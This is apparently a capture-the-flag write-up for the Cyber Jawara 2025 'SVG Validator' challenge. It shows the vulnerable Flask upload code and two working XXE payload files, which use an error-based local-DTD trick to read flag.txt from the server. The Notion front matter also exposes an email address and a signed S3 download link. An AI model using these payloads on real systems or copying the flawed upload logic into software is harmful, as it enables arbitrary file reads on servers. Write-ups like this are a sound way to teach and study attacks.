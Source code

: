 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466YL36LWYX%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T100950Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDIaCXVzLXdlc3QtMiJIMEYCIQCUzj1Z3mbLjHLQVL4g%2BHcXe8%2F%2BDSo7qKix3HpJqSBxUQIhAOrZYvR33UHXghZ%2B3veE1bENnL%2BFxzEv6l4DgP0elOzMKogECOv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgxnEYHQRMiL4XEXcAAq3AMIkZ10I90jIsUq3ihb83G3xf8gU7EiGmWm1fK3rlSJ8Knj0Zw7%2FaRZARt5ueCAyJTMaD0tBxV5TG36S5OyUkmmIn%2F3b0UhzHPpYrVRAoA1tyZOzzfuwMDcMI5mxouMCljSmqcOE1RIfdzUymEcTQKGCnHM7je4o%2BE49DT5kFlgdS4O8g1OWAD9yB87hyee9F88vFhPukm4jN6F8nBuAYEWZXfmp1MHf3J1ZukYqqnQ9%2FjICaQ%2BBYhhEE8ymiEaKDsZ2OctPWuIYh47cDkpZcIgcPwsnjwsfVb5WpiK77n%2BdRE%2FsKTAs5f8Pil60ftTFi4DE2M7yHSzsNMZd5cPVqTqHRtea9Pzv78EltSZD7Xarn0BR6%2BMbgwg3PleBqbNPnF2JE7RHg1k4oSQir5kL64C%2FPO4eT%2Fy8diijwfqnrQYn3JMqeOM5ANBg1U4fRq0Wvx3WbHgiZTow4%2Bb3Oh%2BgMzKTnij8S8tK6Dm9REU5dxKUujLgz6Fc2OhosaNiiHaaeJiWZa5ojMdwuaXlN0bxIAi73HG%2FR40Ytk8qcEM%2B9UcY15DLJpmgtadK3wHLwBVGXp%2Fb9aJfyEQGEc5tDgvA4JuA24nzmsEJ0YV7DWfdT7YS0Yy38wPCx%2BjNU56iDDMi8HBBjqkAVXTnzVoiQpBmyXp1bMkOqd3eiUZVhYkK7zK1b7oHoHNBClgZcKJXuKsZv2PXovp4EO5tDa%2BFOGiHYewRKDFg11D23LkHJP6WRepxlP1xavu%2B%2BGJYDXrEHmf1m1ZGb4urb8XCIfwtFZFVr5JzKMo0I%2Fg8W9TkWOiKUldN3eJ4VXNv%2BcD0Lmg3a%2Ff%2BANroyScu%2BNJMzKrxtB5MzbkjqBkmYG1b%2B%2B4\&X-Amz-Signature=adb12375c4cdf520068a8ec8d2d3089c28686ecce987bb06e50df1c824172ff2\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
